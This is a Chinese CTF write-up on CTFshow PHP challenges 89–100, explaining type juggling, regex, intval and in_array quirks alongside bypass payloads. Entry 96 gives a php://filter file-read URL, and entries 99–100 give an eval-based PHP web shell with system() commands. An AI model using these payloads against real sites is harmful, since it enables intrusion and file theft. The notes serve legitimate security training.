# PHP特性
**[CTFshow89-150](https://ctf.show/challenges)**
**[学长笔记](https://exp10it.io/posts/ctfshow-web-php-89-110-writeup/)**
**·89**


**[preg_match()](https://www.php.net/manual/zh/function.preg-match.php)**
正则表达式，常用于过滤用户输入，这里过滤了数字0-9。当匹配数组时会返回 false
**[intval()](https://www.php.net/manual/zh/function.intval.php)**
获取变量的整数值，空的 array（**数组**） 返回 0，非空的 array 返回 1 (**True**)
`pyload=URL/?num[]=a`

**·90**


**==** 会判断内容是否相同, 不会判断类型是否相同
**===** 不仅会判断内容是否相同, 而且还会判断类型是否相同
**[intval()](https://www.php.net/manual/zh/function.intval.php)**



当 base 为 0 时, 会检测 value 的格式来决定使用的进制
我们可以使用八进制或者十六进制绕过类型判断
或者使用 1146.0 1146aaa, 因为 intval() 是一个取整函数, 非整数部分都会被截断, 包括字符串

pyload=URL`/?num=0x117c`   `/?num=1146.0`   `/?num=1146aaa`

**·91**
**[preg_match($pattern, $subject, $matches)](https://www.php.net/manual/zh/function.preg-match.php)**
String $pattern 正则表达式模式 (pattern='/ /')

`/i` 表示忽略大小写 `/m` 表示多行匹配, `/^` 表示匹配开头, `/$/` 表示匹配结尾
String $subject 要匹配的字符串
String $matches 如果提供了matches,它将被填充为搜索到的匹配项

**这里不是过滤用户输入，而是匹配用户输入是否符合正则表达式模式**

`/^php$/im'` 第一层匹配，忽略大小写，多行匹配，匹配开头，匹配结尾。
**字符串中，任意一行，内容完全是 php（不区分大小写）** 换行即可绕过匹配。
`'/^php$/i'` 第二层匹配，忽略大小写，匹配开头，匹配结尾。
只有整个字符串完全等于 php 才会匹配成功
pyload=URL/?cmd=%0axaxa%0aphp

**·92**

弱比较类型

4476.0用不了了，但是4476.1可以

**·93**


十六进制和科学计数法不能用了, 但八进制和小数点还能用


**·94**

**[strpos($subject, $needle, $offset = 0)](https://www.php.net/manual/zh/function.strpos.php)** -----> 查找字符串首次出现的位置，**如果没找到 字符串，将返回 false**。
如果我们使用八进制 010574, `strpos("010574", "0") `返回0, 也就是 false, 加了 ! 后反而变成 true
这里就把八进制的0过滤掉了,需要注意**如果没找到 字符串，将返回 false**
所以字符串中必须有0, 但0不能在首位 (过滤了八进制), 只可以用小数点绕过
`pyload=URL/?num=4476.0123`

加空格的方法, 可以绕过八进制的过滤
`strpos($num, "0")` 的作用是查找字符串中第一个 "0" 出现的位置。
我们的 $num 是 " 010574"，第一个 "0" 在索引 1 的位置（因为前面有一个空格）。
strpos 返回 1，取反 !1 为 false，所以不会执行 die()。
`pyload=URL/?num=%20010574`
加号(%2B)也可以绕过（加号提交过去解码就是空格）
`pyload=URL/?num=+010574`

**·95**

这里的preg_match()过滤**字母**过滤**小数点**
!strpos()过滤八进制的0
但是可以使用空格 **%20** 绕过`!strpos()`过滤

`pyload=URL/?num=%20010574`


**·96**

文件包含漏洞
**[highlight_file()](https://www.php.net/manual/zh/function.highlight-file.php)**
highlight_file() 函数用于高亮显示文件内容。

查任意文件以base64编码输出`?u=php://filter/convert.base64-encode/resource=flag.php`
给绝对路径：`?u=/var/www/html/flag.php`
相对路径`?u=./flag.php`

**·97**

POST传入ab值，ab不等，ab的md5值相等返回flag
注意这里是`===`
如果是 `==` 的话, 任意两个字符串加密后生成的 md5 为字符串类型, 以0e开头的字符串比较时会被类型转换为科学计数法, 即 0==0, 返回 true
但这里是 `===` 的话, 以0e开头的字符串比较时, 不会进行类型转换, 只进行字符串内容的比较。

利用 md5 加密数组时, 会报错并返回 **NULL**
NULL===NULL 返回 true
注意： **数组不能为空**

**·98**


| 三元运算符                                                   | 意思                                                                                               |
| ------------------------------------------------------------ | -------------------------------------------------------------------------------------------------- |
| `xxxxxx?xxxx :xxxx`                                          | `条件 ? 真时执行 : 假时执行;`                                                                      |
| 引用运算符                                                   |
| `a = &c`                                                     | `a 是 c 的引用`                                                                                    |
| 题目                                                         |
| `$_GET ? $_GET = &$_POST : 'flag';`                          | `如果 $_GET 有值, 则将 $_POST 引用给 $_GET(下面的 $_GET 也会被引用), 否则返回 flag`                |
| `$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';`              | `如果 $_GET['flag'] 等于 flag, 则将 $_COOKIE 引用给 $_GET(下面的 $_GET 也会被引用), 否则返回 flag` |
| `$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';`              | `如果 $_GET['flag'] 等于 flag, 则将 $_SERVER 引用给 $_GET(下面的 $_GET 也会被引用), 否则返回 flag` |
| `highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);` | `如果 $_GET['HTTP_FLAG'] 等于 flag, 则返回 flag, 否则返回 __FILE__`                                |

**GET 随便一个值都可以, 只要保证 POST 的内容是 HTTP_FLAG=flag 即可**

**·99**


创建一个叫 $allow 的数组，从 36 循环到 876(0x36d)，每一轮都往数组里加一个1 到当前 $i 的随机数，最终数组里有 841 个随机整数创建一个叫 $allow 的数组，


| 函数                                                                                    | 描述                                                                                                      |
| --------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **[array_push()](https://www.php.net/manual/zh/function.array-push.php)**               | 将一个或多个单元压入数组的末尾（入栈）。                                                                  |
| **[in_array()](https://www.php.net/manual/zh/function.in-array.php)**                   | 检查数组中是否存在某个值                                                                                  |
| **[file_put_contents()](https://www.php.net/manual/zh/function.file-put-contents.php)** | 将字符串写入文件。如果 文件名 不存在，将会创建文件。反之，存在的文件将会重写，除非设置 FILE_APPEND flag。 |

当 n=123 时概率最大, 可以通过 if
但是我们需要以 n 为文件名写文件, n 的值必须是字符串
这里考察的是 in_array() 的漏洞 (其实还是弱类型转换)
```
var_dump(in_array('1abc', [1,2,3,4,5])); // true
var_dump(in_array('abc', [1,2,3,4,5])); // false
var_dump(in_array('abc', [0,1,2,3,4,5])); // true
```

content=<?php eval($_POST[1]);?>
1=system('ls');
1=system('tac flag36d.php');


**·100**

**`=` 的优先级大于`and`**
v1是数字
v2是字符串
v3是`;`

pyload=`URL/?v1=1&v2=eval($_POST[1])?>&v3=;`
在post中给1赋值
1=system('ls');
1=system('cat  ctfshow.php');ctrl+u查看源码

把`0x2d`--->`-`


